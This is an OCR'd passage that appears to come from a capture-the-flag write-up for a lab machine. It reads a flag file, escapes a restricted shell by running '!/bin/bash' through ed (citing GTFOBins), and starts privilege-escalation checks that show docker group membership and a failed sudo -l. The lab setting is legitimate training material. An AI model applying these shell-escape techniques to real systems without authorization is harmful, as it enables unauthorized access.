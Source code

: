 ```bash
unset
wait
sleep
chown
ls
chmod
ed
ping
touch
mv
```

Here are list of executable commands 

```bash
eleanor@peppo:~$ mapfile TMP < local.txt
eleanor@peppo:~$ echo $TMP
42f72803bb58fd45d033803258c09111
```

mapfile allows you to print text.

```bash
eleanor@peppo:~$ ed 
!/bin/bash
eleanor@peppo:~$ 
eleanor@peppo:~$ ls
bin  helloworld  local.txt
eleanor@peppo:~$ cd /
eleanor@peppo:/$ ls
bin   dev  home        initrd.img.old  lib64       media  opt   root  sbin  sys  usr  vmlinuz
boot  etc  initrd.img  lib             lost+found  mnt    proc  run   srv   tmp  var  vmlinuz.old
```

ed command is the way to get out of the restricted shell environment.

[ed | GTFOBins](https://gtfobins.github.io/gtfobins/ed/)

# Privilege Escalation

```bash
eleanor@peppo:/$ id
uid=1000(eleanor) gid=1000(eleanor) groups=1000(eleanor),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),999(docker)
eleanor@peppo:/$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for eleanor: 
Sorry, user eleanor may not run sudo on peppo.
```
